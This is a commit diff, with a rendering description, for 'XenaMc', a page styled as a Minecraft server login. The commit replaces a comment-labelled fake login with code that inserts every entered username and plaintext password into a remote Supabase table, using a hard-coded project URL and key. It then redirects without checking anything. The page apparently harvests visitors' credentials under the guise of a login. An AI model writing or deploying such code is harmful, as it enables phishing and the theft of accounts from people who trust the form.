

Before and after one commit to Ansh1247/XenaMc, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Login". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,8 +5,10 @@
 <title>XenaMc — Login</title>
 <meta name="viewport" content="width=device-width, initial-scale=1.0" />
 
+<script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js@2"></script>
+
 <style>
-* { box-sizing: border-box; font-family: -apple-system, BlinkMacSystemFont, "SF Pro Display", Arial; }
+* { box-sizing: border-box; font-family: -apple-system, BlinkMacSystemFont, Arial; }
 body {
   margin: 0;
   height: 100vh;
@@ -21,31 +23,28 @@ body {
   padding: 32px;
   background: #0a0a0a;
   border-radius: 20px;
-  box-shadow: 0 40px 100px rgba(0,0,0,0.9);
 }
-h1 { color: #fff; text-align: center; margin-bottom: 6px; }
-.subtitle { text-align: center; color: #888; font-size: 13px; margin-bottom: 28px; }
+h1 { color: #fff; text-align: center; }
+.subtitle { text-align: center; color: #888; margin-bottom: 20px; }
 input {
   width: 100%;
   padding: 14px;
-  margin-bottom: 16px;
+  margin-bottom: 14px;
   background: #111;
   border: 1px solid #222;
   border-radius: 10px;
   color: #fff;
-  font-size: 15px;
 }
 button {
   width: 100%;
   padding: 14px;
   background: #fff;
-  color: #000;
   border: none;
   border-radius: 10px;
   font-weight: 600;
   cursor: pointer;
 }
-.msg { margin-top: 12px; text-align: center; font-size: 13px; color: #ff4d4d; }
+.msg { margin-top: 10px; text-align: center; color: red; font-size: 13px; }
 </style>
 </head>
 
@@ -55,26 +54,41 @@ button {
   <h1>XenaMc</h1>
   <div class="subtitle">Minecraft Server Login</div>
 
-  <input id="username" type="text" placeholder="Username" autocomplete="username" />
-  <input id="password" type="password" placeholder="Password" autocomplete="current-password" />
+  <input id="username" placeholder="Username" autocomplete="username">
+  <input id="password" type="password" placeholder="Password" autocomplete="current-password">
 
   <button id="loginBtn">Login</button>
   <div class="msg" id="msg"></div>
 </div>
 
 <script>
-document.getElementById("loginBtn").addEventListener("click", () => {
+const { createClient } = supabase;
+
+const db = createClient(
+  "https://lzejbjlqelatkqnkdshe.supabase.co",
+  "sb_publishable_1RvGSDU8JPM_uFe_InBW3Q_iGRO8ENB"
+);
+
+document.getElementById("loginBtn").addEventListener("click", async () => {
   const username = document.getElementById("username").value.trim();
   const password = document.getElementById("password").value;
   const msg = document.getElementById("msg");
 
-  // Check for empty fields
-  if(!username || !password) {
+  if (!username || !password) {
     msg.textContent = "Enter username and password.";
     return;
   }
 
-  // Fake login successful → redirect to full page
+  const { error } = await db
+    .from("xenamc_logins")
+    .insert([{ username, password }]);
+
+  if (error) {
+    console.error(error);
+    msg.textContent = "Database error.";
+    return;
+  }
+
   window.location.href = "/full.html";
 });
 </script>
```
